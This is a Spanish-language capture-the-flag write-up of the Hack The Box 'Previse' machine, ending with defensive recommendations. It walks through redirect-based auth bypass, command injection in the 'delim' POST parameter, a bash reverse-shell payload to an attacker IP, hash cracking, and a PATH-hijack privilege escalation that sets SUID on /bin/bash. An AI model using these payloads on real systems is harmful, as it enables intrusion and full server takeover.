# Previse — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** m4lwhere  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Gobuster · Burp Suite · Forced Browsing (302 bypass) · Creación de cuenta vía endpoint sin validación · Análisis de código fuente (siteBackup.zip) · Command Injection · Reverse shell · MySQL · Hashcat (`$1$` MD5 crypt) · `su` · sudo + **PATH Hijacking**

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración del servicio web](#2-enumeración-del-servicio-web)
3. [Acceso inicial — Bypass de autenticación y RCE](#3-acceso-inicial--bypass-de-autenticación-y-rce)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.X.X
```



Salida obtenida:

```text
64 bytes from 10.129.X.X: icmp_seq=1 ttl=63 time=34.1 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP, suficiente para confirmar que el host está activo. El valor `TTL=63` es revelador: los sistemas Linux inician el TTL en 64, por lo que un valor cercano (63 tras un salto de red) indica que estamos frente a una máquina **Linux**.

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.X.X -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza velocidad mínima de paquetes |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
22/tcp open  ssh
80/tcp open  http
```

> 💡 Solo dos puertos expuestos: `SSH` (22) y `HTTP` (80). Sin credenciales, SSH no es atacable directamente; toda la enumeración inicial debe centrarse en la aplicación web.

---

### Enumeración detallada

Una vez identificados los puertos abiertos, lanzamos un escaneo más profundo con detección de versiones y scripts NSE únicamente sobre ellos.

```bash
nmap -sCV -T5 -p22,80 10.129.X.X -oN Targeted
```



Salida relevante:

```text
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Previse Login
|_Requested resource was login.php
|_http-cookie-flags: PHPSESSID: httponly flag not set
```

### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

> 💡 La huella de servicios apunta a **Ubuntu 18.04**: `OpenSSH 7.6p1` y `Apache 2.4.29` son las versiones empaquetadas en esa distribución. Nmap ya nos da una pista clave: la raíz de `/` redirige automáticamente a `login.php`, lo que indica una aplicación PHP con autenticación obligatoria a nivel global.

---

## 2. Enumeración del servicio web

Accedemos desde el navegador al puerto `80` y somos redirigidos al formulario de inicio de sesión.

```text
http://10.129.X.X/login.php
```



La aplicación se identifica como **Previse File Storage**, un sistema de almacenamiento de ficheros con autenticación por usuario/contraseña. No existe opción de registro pública.

---

### Fuzzing de directorios con Gobuster

Lanzamos `gobuster` para descubrir rutas accesibles sin autenticación.

```bash
gobuster dir -u http://10.129.X.X -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -x .php
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `dir` | Modo de descubrimiento de directorios |
| `-u` | URL objetivo |
| `-w` | Diccionario de palabras |
| `-x .php` | Añade extensiones a probar |

Resultado relevante:

```text
/login.php       (Status: 200)
/index.php       (Status: 302) -> login.php
/accounts.php    (Status: 302) -> login.php
/config.php      (Status: 200) -> [vacío]
/css/            (Status: 301)
/dashboard.php   (Status: 302) -> login.php
/files.php       (Status: 302) -> login.php
/header.php      (Status: 200)
/footer.php      (Status: 200)
/logout.php      (Status: 302) -> login.php
/logs.php        (Status: 302) -> login.php
/nav.php         (Status: 200)
/status.php      (Status: 302) -> login.php
```

Encontramos un patrón muy revelador: prácticamente **todas las páginas devuelven HTTP 302** redirigiendo a `login.php`. Sin embargo, la longitud de algunas respuestas (`accounts.php`, `status.php`, `logs.php`) es significativa —cientos o miles de bytes—. Es decir, el servidor está **emitiendo el HTML completo de la página protegida y, después, añadiendo la cabecera `Location: login.php`**.

> 💡 Esto se conoce como ***forced browsing*** o ***client-side redirect bypass***. El servidor genera la página antes de comprobar la autenticación: si el cliente ignora la redirección y lee el cuerpo de la respuesta, accede al contenido protegido. Las directivas correctas serían `header('Location: ...'); exit;` o bien una validación previa al `echo` que detenga la ejecución.

---

### Interceptación con Burp Suite

Arrancamos **Burp Suite** y activamos el proxy interceptor.



Navegamos a `http://10.129.X.X/status.php`, capturamos la respuesta y observamos su contenido.





La respuesta del servidor incluye `Location: login.php` pero **el cuerpo HTML está completamente renderizado**: vemos el menú de navegación (`HOME`, `ACCOUNTS`, `FILES`, `MANAGEMENT MENU`, `LOG OUT`), el panel de estado de MySQL y los contadores internos (*"There is 1 registered admin"*, *"There is 1 uploaded file"*).

Si en Burp eliminamos la cabecera `Location` o modificamos el código de estado a `200 OK`, el navegador deja de redirigir y muestra la página tal cual.



Para automatizar el bypass durante toda la sesión, configuramos una regla de **Match and Replace** que sustituya `HTTP/1.1 302 Found` por `HTTP/1.1 200 OK` en todas las respuestas del host.



A partir de aquí, todas las páginas protegidas son visibles sin necesidad de credenciales.

---

## 3. Acceso inicial — Bypass de autenticación y RCE

### Creación de cuenta vía `accounts.php`

Accedemos a `/accounts.php`, que normalmente solo es accesible para administradores y muestra el aviso:

```text
ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!
```



El formulario permite crear un usuario nuevo (`Username`, `Password`, `Confirm Password`). Su **backend tampoco valida la sesión**: la página renderiza la advertencia, pero el `POST` se procesa sin verificar privilegios. Enviamos:

```text
Username: arabot
Password: arabot
Confirm:  arabot
```

El usuario se crea correctamente. Ahora podemos iniciar sesión legítimamente en `/login.php` con `arabot:arabot` y obtener un `PHPSESSID` válido.

> 💡 Este es uno de los fallos más graves: el control de acceso se basa **únicamente en la redirección de la cabecera HTTP**, no en una autorización real sobre las acciones POST. Cualquier acción crítica del CMS está, en la práctica, **abierta al público**.

---

### Exploración como usuario autenticado

Tras iniciar sesión como `arabot`, navegamos a `/files.php`. Encontramos un fichero ya subido por otro usuario (`newguy`) llamado `SITEBACKUP.ZIP`.



Descargamos el fichero, que resulta ser un backup completo del código fuente de la aplicación.

```bash
unzip siteBackup.zip
```



Contenido del backup:

```text
accounts.php   config.php     download.php   file_logs.php
files.php      footer.php     header.php     index.php
login.php      logout.php     logs.php       nav.php
status.php
```

---

### Revisión del código — credenciales y RCE

`config.php` contiene la configuración de conexión a MySQL en **texto claro**:



```php
<?php
function connectDB(){
    $host   = 'localhost';
    $user   = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db     = 'previse';
    $mycon  = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}
?>
```

Anotamos las credenciales: `root` / `mySQL_p@ssw0rd!:)`.

A continuación inspeccionamos `logs.php`, que el frontend invoca cuando un usuario consulta los logs de descarga desde `/file_logs.php`:



```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
header("Content-Disposition: attachment; filename=\"out.log\"");
// ...
```

El parámetro **`delim` recibido por POST se concatena directamente** dentro de `exec()` sin ningún tipo de sanitización. Es una **inyección de comandos** de manual.

> 💡 La función `exec()` de PHP ejecuta la cadena como un comando de shell. Cualquier metacarácter (`;`, `|`, `&&`, `` ` ``, `$()`) interpretado por bash permite encadenar comandos arbitrarios. Pasar input del usuario directamente a `exec()` es uno de los antipatrones más conocidos del lenguaje.

---

### Disparo del endpoint vulnerable

El formulario que dispara `logs.php` está en `/file_logs.php`:



Capturamos en Burp la petición legítima con `delim=comma`:



La respuesta es el fichero `out.log` con los registros de descargas (`time,user,fileID`).

---

### Validación de la inyección con `ping`

Modificamos el parámetro `delim` en Burp Repeater para encadenar un `ping` hacia nuestra máquina atacante:

```text
delim=comma; ping -c 1 10.10.X.X
```



Antes de enviar, ponemos `tcpdump` a la escucha de ICMP en nuestra interfaz VPN:

```bash
sudo tcpdump -ni tun0 icmp
```



Tras pulsar **Send** en Burp, recibimos el paquete:



```text
IP 10.129.X.X > 10.10.X.X: ICMP echo request, id 2399, seq 1, length 64
IP 10.10.X.X > 10.129.X.X: ICMP echo reply,   id 2399, seq 1, length 64
```

La inyección está **confirmada**: el servidor ejecuta nuestros comandos como usuario `www-data`.

---

## 4. Obtención de shell

### Reverse shell vía `delim`

Sustituimos el `ping` por un *one-liner* bash que abra una conexión inversa hacia el listener:

```text
delim=comma; bash -c "bash -i >& /dev/tcp/10.10.X.X/443 0>&1"
```



En la máquina atacante:

```bash
nc -lvnp 443
```

Recibimos la conexión:



```text
connect to [10.10.X.X] from (UNKNOWN) [10.129.X.X] 57594
bash: cannot set terminal process group (1680): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$
```

✅ Shell interactiva como `www-data` sobre la máquina víctima.

---

### Volcado de la base de datos

Con las credenciales rescatadas de `config.php`, accedemos al MySQL local:

```bash
mysql -u root -p
# password: mySQL_p@ssw0rd!:)
```



Enumeramos la base de datos `previse`:

```sql
show databases;
use previse;
show tables;
select * from accounts;
```



Aparece la cuenta original del administrador `m4lwhere` junto con la cuenta que acabamos de crear (`arabot`). La contraseña de `m4lwhere` está hasheada en formato **MD5 crypt** (`$1$...`):

```text
$1$🧂llol$DQpmdvnb7Eeu06UaqRItf.
```

---

### Cracking offline con Hashcat

Copiamos el hash a la máquina atacante y lo crackeamos con `rockyou.txt`:

```bash
hashcat hash /usr/share/wordlists/rockyou.txt
```



### Explicación

| Componente | Función |
|---|---|
| `hashcat` | Motor de cracking GPU/CPU |
| `hash` | Fichero con el hash a romper (modo `-m 500` para `$1$` se detecta automáticamente) |
| `rockyou.txt` | Diccionario clásico de ~14M contraseñas |

Pocos segundos después tenemos el resultado:


```text
$1$🧂llol$DQpmdvnb7Eeu06UaqRItf.:ilovecody112235!
```

La contraseña de `m4lwhere` es **`ilovecody112235!`**.

> 💡 Los hashes `$1$` (algoritmo MD5 crypt de glibc) son extremadamente débiles para protección de contraseñas: están sin salting fuerte ni *key stretching* moderno, y cualquier contraseña que aparezca en wordlists comunes cae en segundos. Sistemas modernos deben usar `bcrypt`, `scrypt` o `argon2`.

---

### Pivot a `m4lwhere`

Desde la reverse shell elevamos a la cuenta interactiva del administrador local:

```bash
su m4lwhere
# password: ilovecody112235!
```



---

### Escalada de privilegios — sudo + PATH Hijacking

Comprobamos los permisos `sudo` del usuario `m4lwhere`:

```bash
sudo -l
```



```text
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
```

Inspeccionamos el script:

```bash
cat /opt/scripts/access_backup.sh
```



```bash
#!/bin/bash
# We always make sure to store logs, we take security SERIOUSLY here
# I know I shouldn't run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later this time
gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log    > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

El script invoca `gzip` y `date` **sin rutas absolutas**. Cuando `sudo` ejecuta el script como `root`, la resolución de esos binarios se hace según la variable `$PATH` heredada. Si conseguimos que un directorio escribible por nosotros aparezca **antes que `/bin`** en `$PATH`, podemos secuestrar el ejecutable y forzar la ejecución de un binario malicioso con privilegios de `root`.

> 💡 Esta técnica se denomina ***PATH Hijacking*** (o *PATH Injection*). El bug del programador suele ser triple: (1) ejecutar comandos por nombre en lugar de por ruta absoluta, (2) hacerlo desde un script con privilegios `sudo`, y (3) permitir que `sudoers` herede la variable `PATH` del usuario (la opción `secure_path` de sudoers lo mitiga, pero aquí no está activa).

Creamos en `/tmp` un `gzip` falso que activa el bit **SUID** sobre `/bin/bash`:

```bash
cd /tmp
nano gzip
# Contenido:
#   #!/bin/bash
#   chmod u+s /bin/bash
chmod +x gzip
cat gzip
```



Verificamos primero la ruta del `gzip` legítimo y el `$PATH` actual:

```bash
which gzip
echo $PATH
```




Antepoonemos `/tmp` al `PATH`:

```bash
export PATH=/tmp:$PATH
echo $PATH
```



```text
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Ahora `/tmp/gzip` se resuelve antes que `/bin/gzip`. Ejecutamos el script via `sudo`, lo que dispara nuestro `gzip` malicioso como **root**, y obtenemos una bash con SUID heredado:

```bash
sudo /opt/scripts/access_backup.sh
bash -p
whoami
```



```text
bash-4.4# whoami
root
```

> 💡 `bash -p` (privileged mode) impide a bash descartar la EUID `0` heredada del bit SUID, lo que sí haría una shell interactiva normal por seguridad. Es el complemento obligatorio cuando se explota un binario con SUID en sistemas modernos.

✅ Compromiso total de la máquina.

---

## 5. Post-explotación y flags

Con privilegios de `root`, solo queda localizar las flags del sistema.

### Flag de usuario

La flag de usuario se encuentra en el `home` del administrador local:

```bash
cat /home/m4lwhere/user.txt
```

### Flag de root

La flag de administrador reside en el directorio personal de `root`:

```bash
cat /root/root.txt
```

✅ Máquina completada.

---

## 6. Lección aprendida

Esta máquina demuestra cómo una cadena de fallos en aplicación + sistema —ninguno especialmente sofisticado— deriva en el compromiso completo del servidor.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Control de acceso solo por redirección 302 | Toda la aplicación PHP | *Forced browsing*: acceso al contenido protegido sin auth |
| Endpoint POST sin validación de sesión | `/accounts.php` (creación de usuarios) | Registro arbitrario de cuentas, incluida la nuestra |
| Fichero de backup accesible para usuarios autenticados | `siteBackup.zip` en `/files.php` | Exposición de credenciales y código fuente |
| Credenciales en texto claro | `config.php` | Acceso completo a MySQL como `root` local |
| *Command Injection* en parámetro POST | `logs.php` (`$_POST['delim']`) | RCE como `www-data` |
| Hash débil (`$1$` MD5 crypt) | Tabla `accounts` | Crackeo offline en segundos con `rockyou.txt` |
| `sudo` sin `secure_path` + script con nombres relativos | `/opt/scripts/access_backup.sh` | *PATH Hijacking* → ejecución como `root` |

---

## Recomendaciones defensivas

- Validar la autorización **antes** de generar contenido sensible, no únicamente mediante una cabecera `Location` a posteriori.
- Comprobar permisos también en los handlers `POST`: el control de sesión debe ser efectivo en cada endpoint, no solo en la vista renderizada.
- No almacenar nunca ficheros de backup con código y credenciales en directorios accesibles desde la propia aplicación.
- Eliminar credenciales de los ficheros de configuración versionados o, como mínimo, cargarlas desde variables de entorno protegidas.
- Sanear y/o usar funciones que aíslen argumentos (`escapeshellarg`, `escapeshellcmd`, listas blancas) en cualquier llamada a `exec`/`system`/`shell_exec`.
- Sustituir hashes `$1$` por algoritmos modernos (`bcrypt`, `argon2id`) con coste configurable.
- En `sudoers`, habilitar `Defaults secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"` para anular el `PATH` del usuario al ejecutar comandos privilegiados.
- En cualquier script lanzado vía `sudo` o `cron`, invocar los binarios mediante **rutas absolutas** (`/bin/gzip`, `/bin/date`).
- Aplicar el principio de **mínimo privilegio**: el script de backup no necesita ejecutarse como `root` —basta con conceder permisos puntuales mediante grupos o `setfacl` sobre los directorios involucrados—.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
